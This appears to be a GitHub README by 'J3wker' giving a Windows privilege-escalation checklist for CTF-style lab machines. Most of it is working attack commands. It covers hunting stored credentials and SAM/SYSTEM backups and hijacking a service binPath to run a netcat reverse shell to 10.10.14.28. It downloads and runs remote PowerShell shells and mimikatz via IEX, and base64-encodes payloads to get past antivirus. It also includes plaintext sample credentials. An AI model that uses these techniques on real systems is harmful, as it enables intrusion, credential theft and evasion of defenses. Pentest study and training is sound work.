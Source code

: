 
Made By J3wker


  ██╗          ██╗██████╗ ██╗    ██╗██╗  ██╗███████╗██████╗      ██╗
 ██╔╝          ██║╚════██╗██║    ██║██║ ██╔╝██╔════╝██╔══██╗     ╚██╗ 
██╔╝█████╗     ██║ █████╔╝██║ █╗ ██║█████╔╝ █████╗  ██████╔╝█████╗╚██╗
╚██╗╚════╝██   ██║ ╚═══██╗██║███╗██║██╔═██╗ ██╔══╝  ██╔══██╗╚════╝██╔╝
 ╚██╗     ╚█████╔╝██████╔╝╚███╔███╔╝██║  ██╗███████╗██║  ██║     ██╔╝ 
  ╚═╝      ╚════╝ ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝     ╚═╝ 



BEFORE STARTING !! if system before 2012 - try juciypotato
use `systeminfo` | google the system and update version - look for CVE's and kernel Exploits.
If nothing found start the check list.


Check List:
_______________________________________________________________

101. use windows-exploit-suggester.py

`systeminfo > sys.txt`

Transfer sys.txt to kali and use this with the python script.

Example:

`python windows-exploit-suggester.py --database 2019-10-11-mssb.xls --systeminfo sys.txt `

In order to get the database file do `python windows-exploit-suggester.py --update`
_______________________________________________________________
NOTE: List files you saw when you enumerated the web and looked intersering. 
Example:

`secret.php`
`db.php`
`auth.php`

Read them after getting a basic shell - might have creds in them 
if so `net user` try the creds against users - maybe it matches.

Example:
`runas /user:Administrator cmd.exe`
Check running process 

1. `ps`

```
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
```

remmber PID of weird process
Write it down and use
2. `netstat -ano`
Check for open ports - google that port - what is it ?

see Users
3. `net user`

see specific username information / groups
4. `net user username` - which group is he in ? Logs reader ? read logs - maybe passwords hidden, maybe automatic script the read logs
inject command!, part of "Remote Management Group" ? maybe use WinRM 

5. check Credentials mananger:

`dir C:\Users\username\AppData\Local\Microsoft\Credentials\`
`dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\`
`cmdkey /list` 
if is has keys try:

Domain could be also Hostname or just use username alone
runas /user:DOMAIN\Username /savecred command

if that doesnt work - try Meterpreter `load incognito`- maybe impersonate to a certain user

6. check `Documents` folder 
7. check `Downloads` folder
8. check `Program Files (x86)` folder
9. check `Program Files` folder
10. check `AppData` folder and etc `Local` - `LocalLow` - `Roaming`

Look for werid files and installed programs - look for exploits in them.

______________________________________________________
11. check services with write access - to change binpath

`accesschk.exe -accepteula -uvwc *`

Example:
1. `sc config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.14.28 9001 -e cmd.exe"`
$ Start a listener on port 9001
2. `sc stop usosvc`
3. `sc start usosvc`
4. get a shell.
______________________________________________________

12. Check for files like .txt / .php - read them.
check for automated scripts that are waiting for scertain files for example:

"Admin is waiting for PDF drop it in C:\Docs" - create a Malicious PDF - drop it

13. Look for backups files `SAM.bak` - `SYSTEM.bak`/ windows image backup.

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

14. What Groups are on the system? 
`net localgroup`

15. Unquoated services ? if so hijack it!

```
wmic service get name,displayname,pathname,startmode 2>nul |findstr /i "Auto" 2>nul |findstr /i /v "C:\Windows\\" 2>nul |findstr /i /v """
```

16. What scheduled tasks are there? Anything custom implemented?

`schtasks /query /fo LIST 2>nul | findstr TaskName`

or in powershell:

`Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State`

17. what is running on startup ?

`wmic startup get caption,command`

18. Permissions on specific folders ?

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
```
NOTE: Change the value of "Everyone" to your desire.
example:

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
```

19. If you have user Creds and WinRM is open try:

NOTE: Change Values `$user`  and `$pw` to match your case.

```
$user = 'SNIPER\Chris'
$pw = '36mEAhz/B8xQ~2VM'
$secpw = ConvertTo-SecureString $pw -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
```

Possible to convert into one-liner:

```
$user = 'SNIPER\Chris';$pw = '36mEAhz/B8xQ~2VM';$secpw = ConvertTo-SecureString $pw -AsPlainText -Force;$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
```


and then:

```
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock {command}
```

Get command at the user you prompted 

20. If WinRM isn't available do the same to store creds but use

```
Start-Process -FilePath "powershell.exe" -Argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/Invoke-PowerShellTcp.ps1')" -Credential $cred
```

21. Wanna Download something?

```
IEX(New-Object Net.WebClient).downloadString('URL')
(New-Object Net.WebClient).DownloadFile('http://10.10.14.28/mimikatz.exe', 'mimikatz.exe')
```

22. AV on ? Command Filtering ?

```
cat Invoke-PowerShellTcp.ps1 | iconv -t UTF-16LE | base64 -w0 | xclip -selection clipboard
```

or with a command in plain-text:

```
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.28/Invoke-PowerShellAdmin.ps1')" | iconv -t UTF-16LE | base64 -w 0 | xclip -selection clipboard
```

to execute the output use

`powershell -enc`

exmaple :
Note - not real output of base64 made it shorter for example.

```
powershell -enc AMAAuADEANAAuADIAOAAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABBAGQAbQB
```

